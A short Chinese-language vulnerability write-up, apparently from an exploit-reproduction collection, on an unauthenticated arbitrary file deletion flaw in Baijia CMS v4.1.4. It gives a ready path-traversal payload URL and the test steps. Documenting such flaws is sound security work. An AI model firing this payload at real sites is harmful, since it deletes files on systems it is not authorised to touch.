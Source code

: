 ```yaml
---
title: "百家cms v4.1.4 任意文件删除漏洞"
id: zhfly3324
---
```


# 百家cms v4.1.4 任意文件删除漏洞

## 一、漏洞简介

## 二、漏洞影响

百家cms v4.1.4

## 三、复现过程

```
# payload
# 不需要后台权限
# 只能删除文件，不能删除文件夹 `[http://www.0-sec.org/index.php?mod=mobile&act=uploader&op=post&do=util&m=eshop&op=remove&file=../qwe.txt](http://www.0-sec.org/index.php?mod=mobile&act=uploader&op=post&do=util&m=eshop&op=remove&file=../qwe.txt)` 
```

设置里需要选择本地，否则删除的不是本地文件

![image](../img/8488bdbdbafc372b50cfa43ed42facea.png)

先在根目录下创建qwe.txt作为测试文件

![image](../img/e9b8ef9a6b2adc00f22332e764e2fd27.png)

访问payload

![image](../img/4abaf66e290dc5934a84872422078ff6.png)

查看文件，已经被删除

![image](../img/07f1ed518212169c3f94f7537dd831e3.png)

## 参考链接

> https://xz.aliyun.com/t/7542